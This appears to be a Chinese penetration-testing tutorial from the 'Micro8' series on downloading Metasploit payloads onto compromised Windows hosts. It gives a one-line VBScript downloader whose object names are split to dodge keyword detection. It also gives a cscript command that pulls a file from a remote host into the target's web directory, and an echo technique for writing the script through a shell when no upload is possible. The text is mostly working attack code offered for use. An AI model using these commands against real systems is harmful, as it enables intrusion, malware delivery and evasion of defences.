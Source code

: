 ```yaml
---
title: 37、vbs一句话下载payload
date: 2019-09-21 19:04:58
comments: true
categories: 
 - Micro8系列
---
```



一次 msf 完整的流程离不开目标机的 payload 下载与执行。而针对不同环境目标，考虑或者选择不同方式的 payload 下载与执行。如 webshell 下，注入点下。smb 下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对 windows 下的 payload 下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如 windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

**靶机：**windows 2003  

### vbs：  

保存downfile.vbs
```visual basic
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

### 命令行下执行：
```code
cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt
```

![](../do/media/7f46749ce580dd58f217f4757f5f6529.jpg)

往往在实战中，没有上传的方便条件，尤其是目标机是 windows，只有 echo 方式来写入 vbs。

### 命令行下执行：
```code
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```  

**优点：**支持windows全版本系列  
**缺点：**对https不友好

>   Micropoor

